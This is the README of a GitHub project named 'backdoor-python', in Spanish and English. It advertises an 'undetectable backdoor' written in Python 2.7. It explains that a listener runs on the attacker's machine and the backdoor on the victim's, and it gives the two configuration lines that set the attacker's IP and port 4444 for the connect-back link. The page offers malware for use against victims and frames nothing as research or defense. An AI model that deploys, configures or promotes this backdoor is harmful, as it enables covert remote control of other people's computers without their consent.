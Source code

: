 # backdoor-python

![backdoor2](https://user-images.githubusercontent.com/51070590/84421419-c8e5a400-abd8-11ea-9205-a314a1f154a7.PNG)

[![Github Release Version](https://img.shields.io/badge/version-1.3-green)](https://github.com/MarceloNoguera/backdoor-python)
[![Github Release Version](https://img.shields.io/badge/python-2.7-green.svg)](https://github.com/MarceloNoguera/backdoor-python)
[![RTA loves Open source](https://badges.frapsoft.com/os/v1/open-source.svg?v=103)](https://github.com/MarceloNoguera/backdoor-python)

#### Spanish
<p>Backdoor indetectable escrito en Python <br>
  
El archivo listener.py se ejecuta en la maquina atacante y en archivo backdoor en 
la maquina victima.

Para que funcione deben modificar el codigo al final de ambos archivos y agregar la
IP de la maquina atacante en ambos.

Remplazen "0.0.0.0" por la IP del atacante <br>

my_listener = Listener("0.0.0.0", 4444)<br>
my_backdoor = Backdoor("0.0.0.0", 4444)

_______________________________________________________________________________________________________
#### Inglish
Undetectable backdoor written in Python

The file listener.py is executed on the attacking machine and in the backdoor file in 
the victim machine.

In order for it to work you must modify the code at the end of both files and add the
IP of the attacking machine on both.

Replace "0.0.0.0" with the attacker's IP <br>

my_listener = Listener("0.0.0.0", 4444)<br>
my_backdoor = Backdoor("0.0.0.0", 4444)</p>


